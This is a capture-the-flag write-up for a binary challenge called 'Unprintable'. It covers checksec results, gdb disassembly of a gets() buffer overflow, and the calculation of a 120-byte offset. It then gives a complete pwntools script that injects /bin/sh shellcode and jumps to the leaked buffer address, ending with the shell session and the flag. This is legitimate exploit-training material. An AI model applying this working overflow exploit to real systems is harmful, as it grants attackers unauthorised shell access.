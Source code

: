 # Unprintable

We are given a binary, so let's see what it does:
```
I found some empty room in the RAM on this system, and prepared some especially for you!
But I'm worried you might put something evil in it, so I'm not going to print it out
Here's your special RAM, happy birthday!: 0x7ffd617472f0
What are you going to do with it?
I wanna consume it
I hope you enjoyed your memory!
```

Hmm, looks like we are given a memory address along with a place to put some text.  Usually with challenges like these, the memory address given is the address of the buffer, we can verify this in a bit, but for now lets look at what securities the binary has using `pwn checksec unprintable`:

```
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      PIE enabled
    RWX:      Has RWX segments
```

Hmm, NX is disabled, meaning the stack is excecutable.  That means we can probably excecute shellcode on the stack.  Now let's open up the binary in gdb and see what's going on.

Running `info functions`, we get a list of the functions used in the program.  Its seems like the `input` function is the one we are looking for, so let's disassemble that.

```
gdb-peda$ disass input
Dump of assembler code for function input:
   0x00000000000006ca <+0>:	push   rbp
   0x00000000000006cb <+1>:	mov    rbp,rsp
   0x00000000000006ce <+4>:	sub    rsp,0x70
   0x00000000000006d2 <+8>:	lea    rax,[rbp-0x70]
   0x00000000000006d6 <+12>:	mov    rsi,rax
   0x00000000000006d9 <+15>:	lea    rdi,[rip+0xf8]        # 0x7d8
   0x00000000000006e0 <+22>:	mov    eax,0x0
   0x00000000000006e5 <+27>:	call   0x590 <printf@plt>
   0x00000000000006ea <+32>:	lea    rdi,[rip+0x117]        # 0x808
   0x00000000000006f1 <+39>:	call   0x580 <puts@plt>
   0x00000000000006f6 <+44>:	lea    rax,[rbp-0x70]
   0x00000000000006fa <+48>:	mov    rdi,rax
   0x00000000000006fd <+51>:	mov    eax,0x0
   0x0000000000000702 <+56>:	call   0x5a0 <gets@plt>
   0x0000000000000707 <+61>:	nop
   0x0000000000000708 <+62>:	leave  
   0x0000000000000709 <+63>:	ret    
End of assembler dump.
```
We can set a breakpoint right before the leave instruction to get a view of the stack right before returning.

```
gdb-peda$ break *input+61
Breakpoint 1 at 0x707
gdb-peda$ r
Starting program: /home/perchik/CTF/osuleague/week3/unprintable
I found some empty room in the RAM on this system, and prepared some especially for you!
But I'm worried you might put something evil in it, so I'm not going to print it out
Here's your special RAM, happy birthday!: 0x7fffffffde60
What are you going to do with it?
gimme cookies

[----------------------------------registers-----------------------------------]
RAX: 0x7fffffffde60 ("gimme cookies")
RBX: 0x0
RCX: 0x7ffff7dcfa00 --> 0xfbad2288
RDX: 0x7ffff7dd18d0 --> 0x0
RSI: 0x6f6f6320656d6d69 ('imme coo')
RDI: 0x7fffffffde61 ("imme cookies")
RBP: 0x7fffffffded0 --> 0x7fffffffdee0 --> 0x555555554750 (<__libc_csu_init>:	push   r15)
RSP: 0x7fffffffde60 ("gimme cookies")
RIP: 0x555555554707 (<input+61>:	nop)
R8 : 0x55555575667e --> 0x0
R9 : 0x7ffff7fe04c0 (0x00007ffff7fe04c0)
R10: 0x555555756010 --> 0x0
R11: 0x246
R12: 0x5555555545c0 (<_start>:	xor    ebp,ebp)
R13: 0x7fffffffdfc0 --> 0x1
R14: 0x0
R15: 0x0
EFLAGS: 0x246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
```

Sweet!  Looks like the address given is indeed the start of our buffer. Now to figure out how big that buffer is.  We can run it again, and this time lets look at the stack frame and calculate the offset of the saved rip and the address leak we were given.

```
Saved registers:
  rbp at 0x7fffffffded0, rip at 0x7fffffffded8
```

Subracting these two we end up getting a buffer that is 120 bytes.  So now we have everything we need to craft our exploit!

I used pwntools to craft the exploit, as it streamlines many things such as creating shellcode, connecting to a remote binary, etc.  

```python
from pwn import *
io = remote('ctf.ropcity.com', 31337)
#io = process("./unprintable")
#io = gdb.debug("./unprintable")
context.update(arch='amd64', os='linux')

io.recvuntil("birthday!: ")

address = int(io.recvline()[2:-1], 16)
shell = shellcraft.sh()
shellcode = asm(shell)
payload = shellcode.ljust(120, b'A')
payload += p64(address)

io.recvuntil("What are you going to do with it?")
io.sendline(payload)

io.interactive()
```

And running it we get a shell!!!

```
[+] Opening connection to ctf.ropcity.com on port 31337: Done
[*] Switching to interactive mode
$ cat flag
osu{i_c0uldnt_pr1nt_th4t_1f_I_tRi3ed!!!1!}
```

Woot! Learned a lot about getting shellcode working in pwntool, as well as using ljust to fill the buffer.  Super fun challenge!

